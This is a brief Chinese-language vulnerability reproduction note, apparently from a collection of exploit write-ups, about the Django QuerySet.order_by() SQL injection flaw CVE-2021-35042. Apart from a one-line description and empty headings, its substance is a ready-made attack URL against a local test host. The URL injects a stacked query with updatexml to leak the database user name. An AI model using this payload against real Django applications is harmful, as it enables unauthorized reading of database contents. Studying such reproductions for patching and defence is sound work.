


# Django QuerySet.order_by() SQL注入漏洞（CVE-2021-35042）

> 漏洞说明

Django在2021年7月1日发布了一个安全更新，修复了在QuerySet底下的order_by函数中存在的SQL注入漏洞

> 前提条件

> 利用工具

> 漏洞复现

访问页面http://192.168.40.77:8000/vuln/?order=-id会得到根据id降序排列的结果

构造url访问http://192.168.40.77:8000/vuln/?order=vuln_collection.name);select%20updatexml(1,%20concat(0x7e,(select%20user())),1)%23成功利用堆叠注入获得数据库用户名信息

